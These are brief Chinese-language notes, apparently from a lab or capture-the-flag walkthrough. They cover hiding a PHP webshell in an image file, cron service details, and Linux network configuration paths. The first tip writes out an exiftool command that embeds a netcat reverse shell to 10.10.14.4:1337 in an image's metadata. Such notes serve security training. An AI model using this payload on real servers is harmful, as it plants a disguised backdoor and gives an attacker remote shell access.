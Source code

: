 - 图片马：制作图片马，文中直接使用的`echo >>`追加，同样原理Windows下使用`copy`来追加，或使用010editor等二进制编辑器来追加，但这些都可能涉及图片完整性问题；可以使用exiftool，`exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' test.php.png`，保持图片完整性。
- 定时任务：家目录下的crontab.guly默认不能触发定时器，定时器服务名为`crond`，日志在`/var/log/cron`。
- Linux网卡设置：如果直接修改网络配置文件，即ifcfg-ethx等文件话，必须通过ifup/ifdown来启动/关闭；CentOS系网络配置文件所在目录`/etc/sysconfig/network-scripts/`，Ubuntu系`/etc/network/interfaces/`。